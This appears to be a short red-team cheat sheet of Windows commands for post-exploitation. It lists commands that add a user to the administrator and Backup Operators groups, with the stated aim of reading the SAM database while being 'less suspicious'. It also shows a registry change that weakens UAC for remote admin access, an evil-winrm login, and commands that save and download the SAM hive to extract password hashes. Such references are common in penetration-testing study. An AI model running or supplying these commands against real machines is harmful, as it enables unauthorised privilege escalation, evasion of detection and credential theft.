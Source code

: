 # 🌆  Windows / Commands

This documents is for windows

---

## 🧚‍♀️ Admin perm via group

- Add administrator group for a user\
`net localgroup administrators <USER> /add`

- Add B.O to get SAM content and be less supicious\
`net localgroup "Backup Operators" <USER> /add`

- Add user to allow RDP\
`net localgroup "Remote Management Users" <USER> /add`

---

## 🛸 UAC

- Desactivate the option in reg to use admin with rdp\
`reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1`

---

## 🦉 Evil WinRm

- Connect to a windows machine\
`evil-winrm -i <IP> -u <USER> -p <PASSWORD>`

- Download the sam file\
`reg save hklm\sam sam.bak`
`download sam.bak`


---
